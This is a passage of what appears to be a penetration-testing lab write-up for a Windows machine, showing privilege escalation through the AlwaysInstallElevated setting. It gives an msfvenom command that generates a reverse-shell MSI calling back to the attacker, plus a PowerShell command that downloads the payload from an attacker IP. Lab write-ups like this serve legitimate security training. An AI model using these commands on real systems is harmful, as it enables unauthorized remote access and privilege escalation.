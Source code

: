 Then can access to `phpmyadmin`, but unuseful.

<img src="../Images/image-20230820154520249.png" alt="image-20230820154520249" style="zoom:80%;" />



### Always Install Elevated

<img src="../Images/image-20230820155753428.png" alt="image-20230820155753428" style="zoom:80%;" />

`AlwaysInstallElevated` is enabled.

Following [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) to PE, use `msfvenom` to generate the reverse shell msi file. Then transfer to the machine.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/shenzi]
└─$ msfvenom -p windows/x64/shell_reverse_tcp -f msi -o shell.msi LHOST=tun0 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi

PS C:\users\shenzi> iwr -uri http://192.168.45.232/shell.msi -o shell.msi
```
